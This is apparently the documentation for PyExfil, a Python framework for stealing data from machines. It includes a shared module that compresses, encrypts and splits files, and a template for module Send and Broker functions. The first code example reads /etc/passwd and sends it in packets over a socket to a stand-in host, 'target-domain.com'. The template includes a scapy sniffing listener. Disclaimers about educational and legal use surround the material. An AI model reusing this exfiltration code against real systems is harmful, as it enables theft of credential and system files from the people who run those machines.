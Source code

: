 # Documentation | PyExfil

PyExfil aims to provide a versatile yet straightforward framework for data exfiltration using various methods while striving for minimal dependencies. This documentation outlines the core functionalities, shared modules, and proper usage guidelines to facilitate both contributions to the project and its ethical use.


## Introduction
PyExfil is designed with modularity and ease of use in mind, focusing on standalone modules to support a wide range of exfiltration techniques. By maintaining minimal dependencies, PyExfil ensures compatibility across different environments and ease of conversion to static binaries for multiple operating systems.


### Shared Abilities
Central to PyExfil is the ability to prepare data for exfiltration efficiently. This functionality is encapsulated in the `pyexfil/includes/prepare` module, which offers methods for file compression, encryption, encoding, and splitting into manageable packets.

Please notice that although we have tried to keep this a collection of relatively separated stand alone modules so that converting them to static binaries for various operating systems would be as easy as possible, some things we have decided to turn into modules that would be shared across the board while attempting to keep is as depency free as possible. Such a component for now is `pyexfil/includes/prepare`. This module contains the methods of converting files (compressing, encrypting, encoding and splitting) into chunks ready to be sent or decoded.

You can use it in the following way:

```python
import socket
from pyexfil.includes.prepare import PrepFile, RebuildFile, DecodePacket

# Preparing the file
proc = PrepFile('/etc/passwd', kind='binary')  # Yields a dictionary of packets

# Initiating socket connection and sending data
sock = socket.socket()
sock.connect(('target-domain.com', 443))  # Replace with your actual target
for packet in proc['Packets']:
    sock.send(packet)
sock.close()

# Rebuilding the data from packets
conjoint = [DecodePacket(packet) for packet in proc['Packets']]

# Verify and rebuild the file
print(RebuildFile(conjoint))
```
**Note**: Ensure the use of secure and legal endpoints for data exfiltration. The example provided is for educational purposes only.


### Calling Convention
To facilitate ease of use and consistency across modules, PyExfil adopts a standardized calling convention:

In theory we wish each module to have a convention call to make it easier to work with. Some methods make it easier while some make it more difficult. For that, here is a template on how we wish for it to be. Please bear in mind some modules will not fall into place. Use your best judgment.

1. Preparing file/data for exfiltration should be done as in [this section]("#shared-abilities").
2. Place the package folder under the right location. For example; short communication (C&C) under `Comm`, exfiltration over network communication under `network` etc.
3. Create an `__init__.py` under that folder.
4. For broadcasting purposes use the function name `Send` that will wrap everything up.
5. For receiving purposes use `Broker` function to contain the function. If possible, set it up in a threading mode as to return back.
6. * if possible add a call back function for when data arrives.

Here's an `__ini__.py` example file:

```python
from scapy.all import sniff
from pyexfil.includes.prepare import PrepFile

def _send_packet(host, port, data, counter):
    # Efficient way to handle string formatting and file operations
    with open('/dev/null', 'w') as f:
        f.write(f"{data}{counter}")

def _testCallBack(pkt):
    # Example callback function for packet reception
    print(f"Received a packet! Length: {len(pkt)}")

def Send(fname, password, host, port):
    # Example function to prepare and send data
    proc = PrepFile(fname, kind='binary', enc_key=password, max_size=1024)
    for i, p in enumerate(proc['Packets']):
        _send_packet(host, port, p, i)
    return True

class Broker:
    def __init__(self, key, retFunc=_testCallBack):
        self.key = key
        self.callBack = retFunc

    def _parse(self, pkt):
        # Replace with actual packet validation and processing logic
        if pkt == 'A Good Boy':
            self.callBack(pkt)
        else:
            pass

    def Listen(self):
        # Adjust filter according to the specific use case
        sniff(prn=self._parse, filter='ip', store=0)
```

There are also a few "ready made functions" that we found useful on several scenarios that can be found in the `general.py`, `image_manipulation.py` and `encryption_wrappers.py`. Have a look at them before reimplementing some of these.

### Additional Resources
PyExfil includes several ready-made functions found in `general.py`, `image_manipulation.py`, and `encryption_wrappers.py`. These are intended to simplify common tasks and should be reviewed before developing new functionalities.

### Exceptions

`PyExfil` holds ability to raise custom exceptions. These exceptions appear in `pyexfil/includes/exceptions.py`

## Security Considerations
Given the sensitive nature of data exfiltration, users are urged to adhere to strict security practices, including secure key management and the use of robust encryption. Always ensure ethical use under applicable laws and regulations.

## Contributions
Contributions to PyExfil are welcome. Please follow the project's contribution guidelines to ensure a smooth collaboration process.

# Legal and Ethical Use
PyExfil is provided for educational and research purposes. Users must ensure all activities conducted with PyExfil comply with applicable laws and ethical guidelines. The developers disclaim any liability for misuse or illegal activities.



